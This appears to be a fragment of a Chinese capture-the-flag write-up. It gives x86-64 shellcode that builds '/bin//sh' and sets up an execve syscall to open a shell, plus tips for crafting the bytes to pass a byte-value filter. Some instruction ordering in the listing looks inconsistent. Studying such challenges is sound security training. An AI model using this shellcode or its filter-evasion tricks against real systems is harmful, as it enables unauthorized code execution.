 ```nasm
    shl r9,0x20

    cdq
    shr r9,1

    ;2 int
    cdq
    nop
    mov r9d,0x68732f2f

    ;3 int
    pop rdi
    cdq
    nop
    add r9d,0x6e69622f
    cdq
    nop

    ;3
    pop rdi
    mov dl,0x0c
    add r9,0x6e69622f
    cdq
    nop

    cdq
    push r9
    nop

    cdq
    pop r10
    nop

    cdq
    add rdi,r9

    cdq
    push rsp
    mov dl,0x16

    syscall
    mov dl,0x5

    mov bl,0x2
    mov al,0x3b
```

### 寻找技巧

- 多运用单字节、双字节的字节码，如:
  ```nasm
  cdq       ;0x99
  nop       ;0x90
  pop rdi   ;0x5f
  push r9   ;0x41 0x51
  ```
- 对一些需要凑成两到三个质数的可以用特定指令进行爆破
  ```nasm
  mov dl,0x??   ;0xb2 0x??  ??相同
  ;同理，可以是bl等，但需是无用的寄存器
  ```
